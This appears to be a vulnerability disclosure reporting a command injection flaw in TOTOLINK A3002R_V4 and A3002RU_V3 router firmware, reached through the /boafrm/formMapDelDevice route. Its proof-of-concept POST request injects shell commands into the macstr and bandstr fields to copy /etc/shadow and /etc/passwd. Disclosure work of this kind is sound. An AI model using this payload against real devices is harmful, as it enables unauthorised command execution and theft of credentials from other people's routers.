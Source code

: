 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [A3002R_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/258.html)/[A3002RU_V3](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/221.html)

**Affected firmware version:** V3.0.0-B20230809.1615

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/menu_listtpl/listtpl/prod/id/26.html?page=1))

# Overview

A serious command execution vulnerability was discovered in TOTOLINK A3002RU V3 and A3002R_V4. The vulnerability can be triggered by the route /boafrm/formMapDelDevice. The attacker can achieve command execution by sending HTTP POST requests.

# Vulnerability details

Function formMapDelDevice is implemented by function sub_45E4B4

![image-20250503095530304](2/image-20250503095530304.png)

There is a command injection vulnerability here

![image-20250503095650260](2/image-20250503095650260.png)

# POC

```
POST /boafrm/formMapDelDevice HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/parent_control.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=1f9685b1eb3e1d38c2fd19e467a8c6ff&clientoff=aaa&macstr=;cat /etc/shadow>/tmp/1.txt;&bandstr=`cat /etc/passwd >/tmp/2.txt`
```

![image-20250428212316520](2/image-20250428212316520.png)